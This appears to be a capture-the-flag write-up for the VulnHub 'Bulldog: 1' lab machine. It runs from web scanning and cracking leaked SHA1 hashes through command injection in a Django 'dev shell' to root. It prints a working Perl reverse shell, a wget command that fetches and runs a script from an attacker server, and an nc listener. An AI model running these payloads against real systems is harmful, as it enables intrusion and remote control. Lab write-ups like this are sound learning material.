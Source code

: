 Bulldog: 1 write-up


scan host:

nikto http://192.168.56.101:8080/

/home/r1s3/storage/ctf/some/vuln_hub/Bulldog_1
![alt text](https://github.com/s1l3xz/some/vuln_hub/Bulldog_1/blob/master/nikto_scan.jpg)

	
	find /dev dir


Visit http://192.168.56.101:8080/dev/
	
find comments in web page source

![alt text](https://github.com/s1l3xz/some/vuln_hub/Bulldog_1/blob/master/comments.png)

	<!--Need these password hashes for testing. Django's default is too complex-->
	<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
	Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
	Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
	Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
	Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
	Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->


Try to brute forse over : https://crackstation.net/

	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5--> bulldog  ( sha1 )

	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e--> bulldoglover ( sha1 )



Login to django admin page http://192.168.56.101:8080/admin with one of credentials


Than go to  http://192.168.56.101:8080/dev/shell/

Find CLI vulnerability in command field:

![alt text](https://github.com/s1l3xz/some/vuln_hub/Bulldog_1/blob/master/CLI.png)

store perl reverse shell on my remote apache server:

use Socket;$i="192.168.56.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

use CLI to downlod perl rev shell on bulldog machine:

ls & wget http://attacker_server/perl_script.pl -O /tmp/lol.pl


open nc on attacker side : nc -lvp 1234

execute perl script over CLI :ls & perl /tmp/lol2.pl & id


Get rev shell under jango

![alt text](https://github.com/s1l3xz/some/vuln_hub/Bulldog_1/blob/master/rev_shell.png)

find customPermissionApp elf file in /home/bulldogadmin/.hiddenadmindirectory directory

reverse elf , find root password : SUPERultimatePASSWORDyouCANTget

execute: sudo su root

got root ;

find secret in /root/congrats.txt

![alt text](https://github.com/s1l3xz/some/vuln_hub/Bulldog_1/blob/master/proof.jpg)